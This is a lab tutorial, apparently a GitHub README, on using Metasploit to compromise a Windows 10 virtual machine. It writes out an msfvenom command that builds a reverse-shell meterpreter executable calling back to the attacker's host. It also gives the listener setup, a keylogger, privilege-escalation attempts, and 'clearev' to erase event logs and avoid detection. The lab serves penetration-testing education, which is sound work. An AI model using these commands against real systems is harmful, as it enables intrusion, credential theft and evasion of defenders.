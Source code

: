 <h1>Metasploit Penetration Test Lab</h1>
<img src="https://i.imgur.com/t8kIcdz.jpeg"/>
<p>In this lab, we utilize the Metasploit framework to exploit a vulnerable virtual machine to simulate a penetration test.</p>
<h2>Resources Used: </h2>
<p>- Kali Linux</p>
<p>- Metasploit</p>
<p>- Windows 10</p>
<p>- VMware Workstation Player</p>

<h2>Please note: this is for demonstration purposes only in a lab environment. Do not conduct these actions on any machines without clear permission.</h2>

<h2>1. Setting up Virtual Machines</h2>
<p>- This lab will require a virtual machine that runs Kali Linux, and another virtual machine that requires Windows 10. </p>
<p>- Head to VMWorksation Player and install it according to your actual physical machine (PICTURE Here)</p>
<img src=""/>
<p>- Once installed, download a Kali Linux ISO & Windows 10 ISO. We will use these files to let our virtual machine have the necessary operating system. Before you install, double-check the hash of the ISO to verify that it hasn’t been modified by anyone else other than the manufacturer.</p>
<p>- Launch VMWorkstation Player, and select “New”</p>
<p>- You can keep all of the default settings, but make sure to choose the correct OS, ISO file, and to make the Network type be bridged. Selecting “bridged” will allow both virtual machines to be on the same LAN as your physical machine. (PICTURE HERE) </p>
<img src=""/>
<p>- Once the configuration is complete, select "Launch/Play" on the Windows 10 machine, and complete the setup prompts. </p>
<p>- Once the setup is complete, go to the firewall settings and select off for all. This will be what makes the machine vulnerable in this lab environment. If this was a real penetration test, the firewall would most likely be turned on and it would take much more time and effort to try to find a vulnerability to exploit and gain access to the machine. </p>
<p>- Go to the command prompt and type in “ipconfig /all” and hit enter. Take note of what this VM's IP Address is and make sure it’s on the same subnet as your physical machine. (PICTURE HERE)</p>
<img src=""/>
<p>Select Start to run the Kali Linux virtual machine. You can select all of the defaults for the setup prompts. </p>

<h2>2. Configuring Metasploit</h2>
<p>- In the Kali Linux VM, select the logo on the top left, then scroll down to where it says “Exploitation Tools”. Select Metasploit to launch the terminal. (PICTURE HERE)</p>
<img src=""/>
<p>- It will ask for the password from the account you made for the VM, once entered Metasploit will start running its configuration.</p>
<p>- From here, you can explore many different exploits, payloads, stagers, & commands by using the “help” or “search” commands</p>
<p>- For this lab, we will be using the exploit called “exploit/multi/handler” which can be used for many different exploits in Metasploit</p>
<p>- Before we use this exploit, we need to get our payload onto the target system that will allow our exploit to be conducted successfully. </p>
<p>- In the msfconsole, type “msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP of Kali Linux Machine) LPORT=4444 -f exe > thisismalicious.exe” and hit enter.(PICTURE HERE)</p>
<img src=""/>
<p>- This command creates our payload into an executable file, which we will send over to the Windows 10 VM. </p>
<p>- In this lab environment, simply copy the file & paste it on the Windows 10 VM since the VM’s firewall/security protections are disabled. In a real penetration test, you most likely will not be able to do this. There are many options you can take, such as social engineering, sending a phishing email, etc.</p>
<p>- Once the executable is on the Windows 10 VM, go back to the Kali Linux terminal and enter “use exploit/multi/handler”. This will create a session in Metasploit and allow us to configure the exploit before running it.</p>
<p>- Enter “show options”, in which you will see that the exploit needs an LHOST, which will be the Kali Linux IP. The LHOST is the listener machine that receives communication from the executable file/vulnerable machine. </p>
<p>Enter “set LHOST (Kali Linux IP)”. Enter “show options" again to see the updated configuration. (PICTURE HERE) </p>
<img src=""/>

<h2>3. Exploiting the Vulnerable Windows 10 VM</h2>
<p>- Go back to the Windows VM and double-click the executable file</p>
<p>- On the Kali Linux terminal, enter “run”. You should see that the exploit has executed successfully and you are now in a meterpreter shell!
(PICTURE HERE)</p>
<img src=""/>

<h2>4. Using Meterpreter</h2>
<p>- Meterpreter can be used for a variety of functions in the post-exploitation realm of penetration testing. We can use meterpreter to create persistence, find other vulnerabilities within the victim machine, download sensitive files, etc.</p>
<p>- For now, we can background this session by selecting “ctrl + z” on the keyboard or by typing in “background”.</p>
<p>- Now that we have a session on the victim VM, we can use “post/multi/recon/local_exploit_suggester” (PICTURE HERE)</p>
<img src=""/>
<p>- Set the session to whatever the session number is listed, and then enter "run"</p>
<p>- Once complete, there are multiple exploits that Metasploit found that the victim VM may be vulnerable to. We can use one of these to accomplish tasks that could be beneficial to the penetration test. (PICTURE)</p>
<img src=""/>
<p>- If we go back to our session, we can run a variety of commands to get a lot of information from the VM. "Keyscan_start" & "Keyscan_dump" will start a keylogger on the victim VM and dump the input to our shell. (PICTURE)</p>
<img src=""/>
<p>- Try “getsystem” in the meterpreter shell. If successful, this will escalate our account’s privileges to the highest access, Authority. This will allow us to execute almost anything we want on the Windows VM. You can check the status of the account with “getuid”. (PICTURE)</p>
<img src=""/>
<p>- Note how in my instance, the "getsystem" command was unsuccessful, and my account is still an administrator. This is why we try to use the exploit suggester to see if there are vulnerabilities to escalate our privilege.</p>
<p>- Feel free to play around with the commands in meterpreter to see what it can accomplish. </p>
<p>- Once you have accomplished your tasks in the penetration test, you can even remove the logs of what you have done in Event Viewer to avoid detection. In the meterpreter shell, enter "clearev". You should see in Event Viewer that the logs are not appearing for what actions you have performed within the VM. (PICTURE) </p>
<img src=""/>
<p>- There is a lot more to Metasploit, but this is just a very basic overview of what this powerful tool can accomplish in the penetration testing environment!</p>
